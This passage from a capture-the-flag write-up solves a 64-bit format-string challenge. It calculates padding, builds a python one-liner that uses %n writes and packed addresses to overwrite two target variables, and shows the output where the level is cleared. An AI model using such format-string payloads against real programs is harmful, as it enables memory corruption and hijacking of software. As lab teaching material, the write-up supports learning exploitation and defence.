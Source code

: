 ```
>>> 0xfacade - 0xace5
16391673
```

So we will need to write 16391673 characters in order to set target 1 equal to the correct value. This will add an additonal 10 characters (%16391673x). Ths will shift over our QWORDS by two (since we have to round up to a multiple of 8 for our total string length) to 10 and 11. We will need to add four additional characters to have the addresses align correctly in their own QWORDS (we would of needed to add 6 extra characters if it wasn't for the extra character from 10 & 11) Let's try it!

```
$  python -c 'print "%44261x%10$n" + "%16391673x%11$n00000" + "\x5c\x10\x60\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00"' | ./f3_64
``` 

one wall of text later...

```
      f7dd379000000\`There's a line between taking advantage, and downright exploiting. You have crossed that line. Level Cleared
The value of target0 is ace5
The value of target1 is facade
```

And just like that, we pwned the binary!